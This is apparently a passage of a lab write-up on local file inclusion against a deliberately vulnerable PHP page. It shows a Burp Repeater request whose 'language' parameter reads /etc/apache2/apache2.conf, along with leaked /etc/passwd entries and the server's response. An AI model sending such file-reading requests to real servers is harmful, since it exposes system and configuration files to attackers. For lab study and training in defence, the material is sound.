 ```http
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false

</div>

[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /rlfi.php?language=/etc/apache2/apache2.conf&action=go HTTP/1.1 📌
Host: 192.137.251.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=c08ejkrfo3pmlhaidv5guqqki2; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 13:04:51 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 20441
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>

[...]

    </form>

    <br />
# This is the main Apache server configuration file.  It contains the
# configuration directives that give the server its instructions.
# See http://httpd.apache.org/docs/2.4/ for detailed information about
```